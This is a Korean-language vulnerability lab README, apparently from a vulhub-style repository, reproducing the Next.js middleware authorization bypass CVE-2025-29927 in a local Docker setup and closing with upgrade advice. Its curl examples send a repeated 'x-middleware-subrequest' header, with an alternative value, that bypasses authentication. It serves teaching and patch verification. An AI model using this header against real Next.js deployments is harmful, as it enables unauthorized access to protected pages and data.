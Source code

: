 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

CVE-2025-29927은 Next.js의 middleware 처리 과정의 취약점을 악용하여, 서버 내부 렌더링 데이터를 노출시킬 수 있는 정보 유출(Information Disclosure) 취약점입니다.
Next.js는 클라이언트 요청을 처리할 때 middleware를 거칩니다.  
이때, 특별히 조작된 헤더(`x-middleware-subrequest`)를 다섯 번 이상 중첩하여 보내면, 서버가 조작된 요청을 적절히 검증하지 못하여, 내부 렌더링 데이터(`__next_f`)가 외부로 노출되는 문제가 발생합니다


## Next.js란?
Next.js는 React를 기반으로 한 웹 애플리케이션 프레임워크입니다.  
기본적인 React 기능에 더해 서버사이드 렌더링(SSR), 정적 사이트 생성(SSG), 파일 기반 라우팅, API 라우트 등을 지원하여, 프론트엔드와 백엔드 기능을 함께 개발할 수 있도록 도와줍니다.
Next.js를 사용하면 SEO 최적화가 쉽고, 성능 좋은 웹사이트를 빠르게 구축할 수 있습니다.


## 취약점 영향
공격자는 인증 없이 서버 내부 렌더링 데이터에 접근할 수 있으며, 이를 통해 민감한 경로 정보, 내부 페이지 구성 정보를 획득할 수 있습니다. 이는 추가 공격(디렉토리 탐색, 내부 API 파악 등)으로 이어질 수 있습니다.

### 요약
- 취약 원인: 중첩된 미들웨어 요청 처리 미흡
- 공격 방법: `x-middleware-subrequest` 헤더를 중첩하여 요청
- 공격 결과: 서버 내부 렌더링 상태(`__next_f`) 및 민감한 페이지 구조 정보 노출
- 위험성: 공격자가 서버 렌더링 내부 데이터를 수집하여 추가적인 공격(디렉토리 구조 파악, 내부 경로 분석 등)에 활용 가능

<br/>

### 환경 설정 (Environment Setup)

아래의 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다.
```
docker compose up -d
```
<br/>

### 취약점 재현 (Vulnerability Reproduction)
정상적으로는 인증되지 않은 사용자가 대시보드에 직접 접근할 경우 로그인 페이지로 리디렉션됩니다.

```bash
curl -i http://localhost:3000
```
![](./p2.png)

애플리케이션이 시작되면, `http://localhost:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000
```
![](./p3.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

<br/>

## PoC 결과 화면
curl 요청을 통해 서버로부터 응답을 받은 결과, 내부 렌더링 JSON 데이터가 포함되어 있음을 확인할 수 있습니다.
![PoC 결과 - 서버 렌더링 데이터 노출](./p1.png)
응답 본문에는 `__next_f` 구조를 가진 서버 렌더링 데이터가 포함되어 있으며, 이는 인증 없이 민감한 내부 정보를 획득할 수 있음을 의미합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.

<br/>

## 대응 방법 (Remediation)
본 취약점은 Next.js 15.2.3 이상 버전에서 패치되었습니다. 따라서 해당 버전 이상으로 업그레이드하는 것이 권장됩니다.

PULL Request : https://github.com/gunh0/kr-vulhub/pull/263

